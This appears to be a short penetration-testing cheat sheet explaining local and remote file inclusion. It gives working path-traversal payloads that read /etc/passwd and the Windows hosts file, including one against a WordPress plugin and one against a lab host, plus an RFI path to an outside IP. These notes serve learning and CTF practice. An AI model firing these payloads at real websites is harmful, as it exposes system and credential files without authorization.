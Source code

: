 ### LFI --> Local file inclusion

---

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

```linux
WINDOWS\System32\drivers\etc\hosts
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts // If doesn't return in error, LFI is possible
```

```bash
<URL>/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
```

```bash
../../../../../../etc/passwd
../../../../etc/passwd
```


RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote
file on the host using protocols like HTTP, FTP etc.

```linux
//10.10.14.6/somefile --> RFI
```

---

[LFI wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
[Php LFI](https://medium.com/@cybenfolland/lfi-rce-escaping-docker-a-tryhackme-ctf-part-1-f6043846cef6)


